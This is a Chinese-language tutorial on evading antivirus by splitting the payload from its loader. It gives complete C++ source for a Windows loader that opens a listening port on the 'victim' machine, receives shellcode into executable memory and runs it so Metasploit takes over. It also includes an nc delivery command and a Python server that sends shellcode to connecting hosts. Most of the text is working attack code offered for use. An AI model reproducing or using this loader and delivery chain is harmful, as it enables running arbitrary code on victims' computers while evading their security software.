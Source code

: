 # 简单的分离免杀

## 简介

通常杀毒软件会匹配静态特征来进行恶意软件的识别，虽然现在有很多行为查杀的引擎，但个人认为杀毒软件仍旧已特征码为主，行为免杀很大程度上是监控windows api，而这些恶意软件使用的api往往都是和合法软件是一致的，这也成为了行为查杀技术的桎梏，很多恶意软件只要换个不同的编译环境，就能不被杀毒软件注意到从而绕过杀毒软件。

本文鉴于目前杀毒软件仍旧以特征库为主，将病毒代码体和执行体分离，从而规避特征免杀。

## 流程

1. 在受害者电脑上打开个侦听端口，分配可执行内存
2. 等待传入 payload
3. 连接到受害者侦听端口，将 shellcode 作为二进制数据发送
4. 受害者将 shellcode 拷入可执行内存
5. 执行 shellcode，由 metasploit 接管 session

## 代码实现

给出代码是监听端口等待连接的，也可以做简单修改做成反向连接的。

```text
#include <WinSock2.h>
#include <WS2tcpip.h>
#include <iostream>
#include <Windows.h>
#pragma comment(lib, "ws2_32.lib")
int main(void)
{
LPWSADATA wsaData = new WSAData();
SOCKET listenSocket = INVALID_SOCKET;
SOCKET ClientSocket = INVALID_SOCKET;
CHAR bufferReceivedBytes[4096] = { 0 };
INT RecvBytes = 0;
PCSTR port = "477";
ADDRINFOA* SocketHint = new ADDRINFOA();
ADDRINFOA* AddrInfo = new ADDRINFOA();
SocketHint->ai_family = AF_INET;
SocketHint->ai_socktype = SOCK_STREAM;
SocketHint->ai_protocol = IPPROTO_TCP;
SocketHint->ai_flags = AI_PASSIVE;
WSAStartup(MAKEWORD(2, 2), wsaData);
GetAddrInfoA(NULL, port, SocketHint, &AddrInfo);
listenSocket = socket(AddrInfo->ai_family, AddrInfo->ai_socktype,
AddrInfo->ai_protocol);
bind(listenSocket, AddrInfo->ai_addr, AddrInfo->ai_addrlen);
listen(listenSocket, SOMAXCONN);
ClientSocket = accept(listenSocket, NULL, NULL);
RecvBytes = recv(ClientSocket, bufferReceivedBytes, sizeof(bufferReceivedBytes),
NULL);
LPVOID shellcode = VirtualAlloc(NULL, RecvBytes, MEM_COMMIT | MEM_RESERVE,
PAGE_EXECUTE_READWRITE);
memcpy(shellcode, bufferReceivedBytes, sizeof(bufferReceivedBytes));
((void(*)()) shellcode)();
return 0;
}
```

## 实现效果

![](../.gitbook/assets/image%20%2842%29.png)

端口已经开始侦听 我们使用 msf 生成 shellcode 并通过 nc 交付给受害者

![](../.gitbook/assets/image%20%2866%29.png)

生成一段 c 格式的 shellcode

![](../.gitbook/assets/image%20%2851%29.png)

处理一下变成一句字符串的形式

![](../.gitbook/assets/image%20%284%29.png)

```text
echo -e “shellcode-line” |nc  ip port
```

可以使用简单的python服务器传递shellcode

```text
import socket
import threading
import time  

def main():
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind(('127.0.0.1', 36444)) # 公网地址
    s.listen(20)
    timeout = 10
    socket.setdefaulttimeout(timeout)
    while True:
        sock, addr = s.accept()
        t = threading.Thread(target=tcplink, args=(sock, addr))
        t.start()


def tcplink(sock, addr):
    print('Start download shellcode %s:%s...' % addr)
    shellcode = b'1111111' #your shellcode
    print(len(shellcode))
    while True:
        data = sock.recv(1024)
        time.sleep(3)
        sock.send(shellcode)
        sock.close()
    print('Finish %s:%s ' % addr)


if __name__ == '__main__':
    main()
```

![](../.gitbook/assets/image%20%2857%29.png)

![](../.gitbook/assets/image%20%2823%29.png)



